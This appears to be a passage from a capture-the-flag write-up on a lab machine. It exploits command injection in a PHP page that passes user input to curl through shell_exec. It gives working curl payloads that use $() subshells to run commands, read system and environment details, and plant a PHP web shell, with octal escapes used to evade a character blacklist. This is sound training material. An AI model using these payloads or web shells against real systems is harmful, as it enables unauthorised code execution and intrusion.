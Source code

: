 ```php+HTML
			if($naughtyurl==0){
				echo shell_exec("curl ".$userurl." 2>&1");
			}
			}
		?>
	</span>
	</body>
</html>
```

This definitely looks exploitable! They use a custom blacklist to prevent "naughty" URLs, but they failed to include things like backticks and subshells (i.e. `$()`).

Now to try exploiting with a simple curl command that runs `id`, saving its output to `/tmp/id` and then uses the server's curl command to pull the file contents:

```sh
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(id>/tmp/id) file:///tmp/id'
# --- snip ---
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# --- snip ---
```

Booyah! Now get some info on the target:

```sh
# get OS info
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(uname -a >/tmp/out) file:///tmp/out'
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(cat /etc/*release >/tmp/out) file:///tmp/out'
PRETTY_NAME="Ubuntu 16.04.2 LTS"

# get env vars
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode 'formurl=$(env>/tmp/out) file:///tmp/out'
USER=www-data
HOME=/var/www
PWD=/var/www/html
```

This would be a lot easier to get a reverse shell if we didn't have to deal with the blacklist. I bet we could create a simple PHP web shell in the web-root folder. To write the php code, it requires restricted characters (`[]`), but we can get around this by using printf with the ASCII octal values of those characters. Also of note, the www-data user can't write to `/var/www/html`, but they can write to `/var/www/html/uploads`

```sh
❯ curl -X POST http://10.10.10.24/exposed.php --data-urlencode $'formurl=$(printf \'<?php system($_REQUEST\\133"cmd"\\135) ?>\'>/var/www/html/uploads/cmd.php) file:///var/www/html/uploads/cmd.php'
<?php system($_REQUEST["cmd"]) ?>
```
